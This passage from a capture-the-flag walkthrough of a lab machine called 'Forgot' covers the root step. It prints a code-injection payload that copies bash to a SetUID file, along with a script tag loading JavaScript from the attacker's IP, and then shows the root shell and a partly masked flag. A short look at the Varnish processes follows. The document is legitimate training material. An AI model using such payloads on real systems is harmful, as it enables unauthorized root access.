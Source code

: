 ```
  File "/usr/local/lib/python3.8/dist-packages/sklearn/utils/validation.py", line 637, in check_array
    raise ValueError(
ValueError: Expected 2D array, got 1D array instead:
array=[].
Reshape your data either using array.reshape(-1, 1) if your data has a single feature or array.reshape(1, -1) if it contains a single sample.

```

I’ll fix that by putting it in two `system` calls, using `\n` to separate lines:

```

oxdf=exec("""import os\nos.system("cp /bin/bash /tmp/0xdf")\nos.system("chmod 4777 /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>

```

Running the script now works, and results in a SetUID `0xdf`:

```

diego@forgot:~$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1183448 Feb 24 16:09 /tmp/0xdf

```

Running it gives a root shell and the flag:

```

diego@forgot:~$ /tmp/0xdf -p
0xdf-5.0# cat /root/root.txt
be34423d************************

```

## Beyond Root

### Varnish Config

#### Identifying Process

I’m curious to see more about how Varnish works. As root, I’ll look for it in the running processes:

```

root@forgot:~# ps auxww | grep -i varnish
vcache       834  0.0  0.1  18932  5524 ?        SLs  Feb22   0:25 /usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m            
vcache       945  0.0  0.8 270152 34960 ?        SLl  Feb22   2:42 /usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m            
varnish+    1165  1.0  0.5  86552 21992 ?        Ss   Feb22  37:38 /usr/bin/varnishncsa -a -w /var/log/varnish/varnishncsa.log -D -P /run/varnishncsa/varnishncsa.pid

```
